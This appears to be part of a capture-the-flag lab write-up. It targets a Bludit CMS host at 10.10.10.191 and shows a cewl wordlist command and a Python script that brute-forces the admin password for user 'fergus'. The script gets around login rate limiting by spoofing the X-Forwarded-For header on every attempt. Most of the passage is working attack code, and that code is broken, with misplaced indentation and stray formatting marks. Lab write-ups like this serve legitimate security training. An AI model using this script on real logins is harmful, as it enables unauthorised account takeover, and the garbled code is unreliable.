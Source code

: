 **Created a custom wordlist using cewl**

    $ cewl -w ro.txt [http://10.10.10.191](http://10.10.10.191)

Then modified script from [this](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) to fit our purpose to Bruteforce the credentials.

    #!/usr/bin/env python3
    import re
    import requests

    host = '[**http://10.10.10.191'](http://10.10.10.191')**
    login_url = host + **'/admin/'**
    username = **'fergus'**
    wordlist = []

    # Generate 50 incorrect passwords
    #for i in range(50):
    #    wordlist.append('Password{i}'.format(i = i))

    # Add the correct password to the end of the list
    #wordlist.append('adminadmin')
    **f=open("wordlists")
    for data in f.readlines():
     wordlist.append(data.strip())**

    for password in wordlist:
        session = requests.Session()
        login_page = session.get(login_url)
        csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
            'X-Forwarded-For': password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }

    data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password,
            'save': ''
        }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
            if '/admin/dashboard' in login_result.headers['location']:
                print()
                print('SUCCESS: Password found!')
                print('Use {u}:{p} to login.'.format(u = username, p = password))
                print()
                break
